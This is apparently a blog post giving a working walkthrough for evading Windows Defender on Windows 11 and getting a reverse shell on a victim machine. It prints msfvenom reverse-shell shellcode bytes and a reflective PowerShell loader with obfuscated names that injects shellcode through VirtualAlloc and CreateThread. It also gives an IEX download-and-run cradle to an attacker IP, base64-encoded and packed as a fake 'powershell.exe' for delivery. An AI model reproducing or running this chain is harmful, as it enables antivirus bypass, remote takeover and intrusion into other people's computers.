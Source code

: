 ```yaml
---
title: Bypass Windows Defender in Windows 11
tags: [windows, defender]
style: fill
color: secondary
description: Bypass Windows Defender in Windows 11.
---
```

### Using reflection in PowerShell to invoke Win32 API calls from remote PowerShell file invoked by Elixir’s interactive shell.

- Insert shellcode from the buf variable in the output from the following msfvenom payload

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip addr> LPORT=<port> -i 2 -e cmd/powershell_base64 -f ps1
```

my output:

```bash
┌──(kali㉿kali)-[/tmp/win11]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=9001 -i 2 -e cmd/powershell_base64 -f ps1
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 1 compatible encoders
Attempting to encode payload with 2 iterations of cmd/powershell_base64
cmd/powershell_base64 succeeded with size 460 (iteration=0)
cmd/powershell_base64 succeeded with size 460 (iteration=1)
cmd/powershell_base64 chosen with final size 460
Payload size: 460 bytes
Final size of ps1 file: 2260 bytes
[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x0,0x0,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x1,0x0,0x0,0x49,0x89,0xe5,0x49,0xbc,0x2,0x0,0x23,0x29,0xc0,0xa8,0x1,0xa,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x7,0xff,0xd5,0x4c,0x89,0xea,0x68,0x1,0x1,0x0,0x0,0x59,0x41,0xba,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x2,0x0,0x0,0x49,0xb8,0x63,0x6d,0x64,0x0,0x0,0x0,0x0,0x0,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,0x57,0x57,0x4d,0x31,0xc0,0x6a,0xd,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,0x24,0x54,0x1,0x1,0x48,0x8d,0x44,0x24,0x18,0xc6,0x0,0x68,0x48,0x89,0xe6,0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0xe,0x41,0xba,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x59,0x41,0x89,0xda,0xff,0xd5
```

### The PowerShell Script.

- Remove 'your_payload' and paste your payload instead.

```powershell
function potatoes {
Param ($cherries, $pineapple)
$tomatoes = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
$turnips=@()
$tomatoes.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$turnips+=$_}}
return $turnips[0].Invoke($null, @(($tomatoes.GetMethod('GetModuleHandle')).Invoke($null, @($cherries)), $pineapple))
}
function apples {
Param (
[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
[Parameter(Position = 1)] [Type] $delType = [Void]
)
$type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass',[System.MulticastDelegate])
$type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
$type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')
return $type.CreateType()
}
$cucumbers = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((potatoes kernel32.dll VirtualAlloc), (apples @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
[Byte[]] $buf = <your_payload>
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $cucumbers, $buf.length)
$parsnips =
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((potatoes kernel32.dll CreateThread), (apples @([IntPtr], [UInt32], [IntPtr], [IntPtr],[UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$cucumbers,[IntPtr]::Zero,0,[IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((potatoes kernel32.dll WaitForSingleObject), (apples @([IntPtr], [Int32]) ([Int]))).Invoke($parsnips, 0xFFFFFFFF)
```

- Host the above in a PowerShell and name it as malware.ps1

### Execution

- If your execute the following command in cmd will give you reverse shell.

```powershell
echo IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.1.10:800/malware.ps1') | powershell -noprofile -
```

- Instead of that will encode this command and convert the PowerShell script to executable file.
- encode the command by [CyberChef](https://gchq.github.io/CyberChef/){:target="_blank" rel="noopener"}

![1](../assets/img/bypass+windows+defender/1.png)

```powershell
IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.1.10:800/malware.ps1')
```

- encoded in base64

```powershell
SUVYIChOZXctT2JqZWN0IFN5c3RlbS5OZXQuV2ViQ2xpZW50KS5Eb3dubG9hZFN0cmluZygnaHR0cDovLzE5Mi4xNjguMS4xMDo4MDAvbWFsd2FyZS5wczEnKQ==
```

- Convert PowerShell to exe file.

[PS2EXE](https://ps2exe.azurewebsites.net/){:target="_blank" rel="noopener"}

```powershell
$A =[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("SUVYIChOZXctT2JqZWN0IFN5c3RlbS5OZXQuV2ViQ2xpZW50KS5Eb3dubG9hZFN0cmluZygnaHR0cDovLzE5Mi4xNjguMS4xMDo4MDAvbWFsd2FyZS5wczEnKQ=="))
powershell -noprofile $A
```

![2](../assets/img/bypass+windows+defender/2.png)

- give a file name and click on Create EXE.

- Create a listener.

```bash
┌──(kali㉿kali)-[/tmp/win11]
└─$ rlwrap -r -f . nc -lnvp 9001
Listening on 0.0.0.0 9001
```

### Deliver the file to victim Machin

```powershell
┌──(kali㉿kali)-[/tmp/win11]
└─$ ls -lah
total 28K
drwxr-xr-x  2 kali kali 4.0K Dec  4 11:12 .
drwxrwxrwt 20 root root 4.0K Dec  4 11:09 ..
-rw-r--r--  1 kali kali 4.2K Dec  4 09:12 malware.ps1
-rw-r--r--  1 kali kali  12K Dec  4 11:03 powershell.exe
                                                                                                                                                                                                                                             
┌──(kali㉿kali)-[/tmp/win11]
└─$ python3 -m http.server 800
Serving HTTP on 0.0.0.0 port 800 (http://0.0.0.0:800/) ...
```

- Download the malware to the victim.

![3](../assets/img/bypass+windows+defender/3.png)

- execute the file
- you should see both powershell.exe and malware.ps1 triggered

```bash
┌──(kali㉿kali)-[/tmp/win11]
└─$ python3 -m http.server 800
Serving HTTP on 0.0.0.0 port 800 (http://0.0.0.0:800/) ...
192.168.1.140 - - [04/Dec/2021 11:14:20] "GET /powershell.exe HTTP/1.1" 200 -
192.168.1.140 - - [04/Dec/2021 11:14:48] "GET /malware.ps1 HTTP/1.1" 200 -
```

### Get Revers Sell

![4](../assets/img/bypass+windows+defender/4.png)

This should bypass Windows Defender as of 04-12-2021